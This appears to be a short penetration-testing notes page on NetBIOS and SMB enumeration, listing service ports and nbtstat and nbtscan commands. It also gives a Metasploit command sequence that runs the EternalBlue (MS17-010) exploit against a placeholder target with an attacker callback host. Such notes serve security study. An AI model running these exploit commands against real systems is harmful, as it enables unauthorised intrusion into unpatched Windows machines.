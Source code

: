 <h5><em>Update: Aug-2022</em></h5>

<h2> NetBIOS and SM Enumeration</h2>

<h3> NetBIOS</h3>

-   Used befor Windows 7
-   NetBIOS Name Service (NetBIOS-NS): UDP 137
-   16-character name assigned to a computer in a workgroup by WINS for name resolution of an IP address to NetBIOS name (Now uses DNS for name resolution)
-   NetBIOS Datagram Service (NetBIOS-DGM): UDP 138
-   NetBIOS Session service (NetBIOS-SSN): TCP 139
-   SMB protocol: TCP 445
-   Microsoft Remopte Procedure Call (RPC): TCP135

```sh
# PowerShell
nbtstat -a <host-address>
# Bash
nbtscan

```

<h3> Server Message Block (SMB)</h3>

-   [Exploit Database](https://www.exploit-db.com/)

```sh
# Bash
sudo searchexploit smb

# Metasploit
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
show options
set RHOST <host-address>
set LHOST <host-address>
exploit

```

-   [EternalBlue](https://en.wikipedia.org/wiki/EternalBlue)
    -   SMB exploit tool leaked from U.S. NSA
